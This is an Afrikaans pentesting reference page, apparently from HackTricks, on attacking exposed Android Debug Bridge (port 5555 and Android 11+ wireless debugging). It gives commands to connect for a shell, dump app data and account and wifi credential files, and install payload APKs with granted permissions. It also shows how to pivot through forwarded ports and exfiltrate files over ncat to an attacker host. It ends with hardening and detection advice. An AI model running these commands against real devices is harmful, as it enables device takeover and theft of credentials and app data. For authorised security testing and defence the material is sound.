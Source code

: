 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Basiese Inligting

Van [die dokumentasie](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) is 'n opdraglyn hulpmiddel om te kommunikeer met Android-gebaseerde toestelle en emulators. Tipiese aksies sluit in die installering van pakkette, debuggings, en die verkryging van 'n interaktiewe Unix-skaal op die toestel.

- Historiese standaard TCP-poort: 5555 (klassieke "adb tcpip" modus).
- Moderne Draadlose debugging (Android 11+) gebruik TLS-pairing en mDNS-diensontdekking. Die verbindingspoort is dinamies en word ontdek via mDNS; dit mag nie 5555 wees nie. Pairing word gedoen met adb pair host:port gevolg deur adb connect. Sien die notas hieronder vir offensiewe implikasies.

Voorbeeld nmap vingerafdruk:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Verbind

As jy ADB blootgestel en bereikbaar vind, probeer om vinnig te verbind en te tel:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- As die toestel ADB-outeurting afdwing (ro.adb.secure=1), sal jy vooraf geoutoriseer moet wees (USB RSA auth) of Android 11+ Draadlose foutopsporing paar (wat 'n eenmalige kode vereis wat op die toestel vertoon word).
- Sommige verskafferbeelde, ingenieurs-/gebruikersdebug-bou, emulators, TV's, STB's en ontwikkelingskits stel adbd bloot sonder outeurting of met adbd wat as root loop. In daardie gevalle sal jy tipies direk in 'n shell of root shell beland.

Vir 'n algemene ADB-opdragverwysing, sien:


{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Vinnige Post-Exploitasie

Sodra jy shell het, valideer voorregte en SELinux-konteks:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Lys en vang data

- Lys derdeparty-apps en paaie:
```bash
pm list packages -3
pm path <pkg>
```
- As jy root het (adb root of su werk), kan jy direk toegang tot /data hê. Indien nie, verkies run-as vir debuggable apps:
```bash
# Sonder root, vir 'n debuggable app
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# Met root
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Nuttige stelseldokumente (root benodig):
- /data/system/users/0/accounts.db en verwante AccountManager data
- /data/misc/wifi/ (netwerk konfigurasies/sleutels op ouer weergawes)
- App-spesifieke SQLite DB's en shared_prefs onder /data/data/<pkg>

Jy kan dit gebruik om sensitiewe inligting te verkry (bv. app geheime). Vir notas oor Chrome data oorwegings, sien die probleem waarna verwys word [hier](https://github.com/carlospolop/hacktricks/issues/274).

### Kode-uitvoering en payload aflewering

- Installeer en outomaties runtime toestemmings toeken:
```bash
adb install -r -g payload.apk         # -g gee alle runtime perms soos verklaar in manifest
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Begin aktiwiteite/dienste/uitsendings direk:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Poort forwarding en pivotering

Selfs sonder root, kan adb plaaslike poorte na toestelpoorte en omgekeerd forward. Dit is nuttig om toegang te verkry tot dienste wat plaaslik op die toestel gebind is of om aanvaller dienste aan die toestel bloot te stel.

- Forward host->toestel (toegang tot 'n toestel-lokale diens vanaf jou gasheer):
```bash
adb forward tcp:2222 tcp:22       # As toestel SSH loop (bv. Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Blootstel app se plaaslike debug bediener
```
- Omgekeerde toestel->gasheer (laat die toestel 'n diens op jou gasheer bereik):
```bash
adb reverse tcp:1080 tcp:1080     # Toestel apps kan nou gasheer:1080 as 127.0.0.1:1080 bereik
```
- Lêer eksfiltrasie oor sokke (geen sdcard skrywe):
```bash
# Op gasheer: luister
ncat -lvp 9000 > dump.tar
# Op toestel: stuur gids as tar (root of run-as soos toepaslik)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Draadlose Debugging (Android 11+)

Moderne Android implementeer TLS-beskermde draadlose debugging met toestel-kant paar en mDNS ontdekking:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Notas
- Poorte is dinamies; moenie aanvaar 5555 nie. mDNS-diensname lyk soos:
- _adb-tls-pairing._tcp (pareer)
- _adb-tls-connect._tcp (gepareerde verbinding)
- _adb._tcp (erf/plat)
- As mDNS gefiltreer is, kan klassieke USB-geassisteerde aktivering steeds op sommige weergawes werk: `adb tcpip 5555` dan `adb connect <ip>:5555` (tot herlaai).

Aanvallende implikasies: as jy met die toestel se UI kan interaksie hê (bv. fisiese toegang of mobiele MDM-misconfigurasie) om Draadlose foutopsporing te aktiveer en die pareerkode te sien, kan jy 'n langlewe-gepareerde ADB-kanaal sonder 'n kabel tot stand bring. Sommige OEM's stel ADB oor TCP in ingenieurs-/ontwikkelingsbeelde beskikbaar sonder pareer—kontroleer altyd.

## Versterking / Opsporing

Verdedigers moet aanvaar dat enige bereikbare adbd (TCP) 'n kritieke risiko is.

- Deaktiveer ADB en Draadlose foutopsporing wanneer dit nie nodig is nie. Herroep USB-foutopsporing-outeuriserings in Ontwikkelaar opsies.
- Verseker dat netwerkbeleid inkomende TCP/5555 en mDNS-gebaseerde ADB-ontdekking op onbetroubare segmente blokkeer.
- Op toestelle onder jou beheer:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # deaktiveer TCP-luister (of gebruik: adb usb)
stop adbd; start adbd             # herbegin daemon
```
- Monitor vir mDNS-rekords `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` op korporatiewe netwerke en waarskuwings vir onverwagte 5555 luisteraars.
- Inventariseer vir onveilige weergawes: `getprop ro.debuggable`, `ro.build.type`, en `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## Verwysings

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB oor Wi‑Fi, pareer en mDNS-diensname: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
